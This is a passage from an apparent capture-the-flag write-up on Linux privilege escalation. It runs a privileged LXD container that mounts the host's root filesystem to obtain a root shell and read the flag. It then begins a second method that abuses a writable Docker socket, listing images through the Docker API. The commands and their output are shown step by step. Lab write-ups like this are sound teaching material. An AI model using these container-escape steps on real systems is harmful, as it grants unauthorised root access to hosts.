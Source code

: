 run that image with security.privileged set to true
```
sysadmin@ubuntu:/tmp$ lxc init m3dsec ignite -c security.privileged=true
Creating ignite
```

mount the /root directory into the image.
```
sysadmin@ubuntu:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
```

finaly we can interact with our container and grab our flag.
```
sysadmin@ubuntu:/tmp$ lxc start ignite
sysadmin@ubuntu:/tmp$ lxc exec ignite /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # cd /mnt/root/root
/mnt/root/root # cat root.txt 
Ka************3j
```



<br>

<h2 id="m1">Method 2 : Exploiting the writable Docker Socket</h2>

As we saw earlier, we have write permissions over `/var/run/docker.sock`, Therefor we can escalate our priveleges, u can read [The danger of exposing docker.sock](https://dejandayoff.com/the-danger-of-exposing-docker.sock), to get an idea of what we are exploiting here.

we will be creating a docker container that mount the root of the target host system, then use socat to execute commands into that new docker, mostly the same aproach.

<br>

lets start by listing all available docker images

```
sysadmin@ubuntu:/tmp curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
[{
    "Containers": -1,
    "Created": 1596768338,
    "Id": "sha256:d3bd49a68bba89420fc1759b197eb2dea9c8afcbb6ea1b6a59daecd1d5a0f972",
    "Labels": null,
    "ParentId": "",
    "RepoDigests": ["wordpress@sha256:efaa511f811de855bcc1a8eafc58339cbf9a315ad95f419f829025631facf6a4"],
    "RepoTags": ["wordpress:php7.2-apache"],
    "SharedSize": -1,
    "Size": 539327122,
    "VirtualSize": 539327122
}, {
    "Containers": -1,
    "Created": 1596583240,
    "Id": "sha256:718a6da099d82183c064a964523c0deca80619cb033aadd15854771fe592a480",
    "Labels": null,
    "ParentId": "",
    "RepoDigests": ["mysql@sha256:da58f943b94721d46e87d5de208dc07302a8b13e638cd1d24285d222376d6d84"],
    "RepoTags": ["mysql:5.7"],
    "SharedSize": -1,
    "Size": 448489152,
    "VirtualSize": 448489152
}]
```
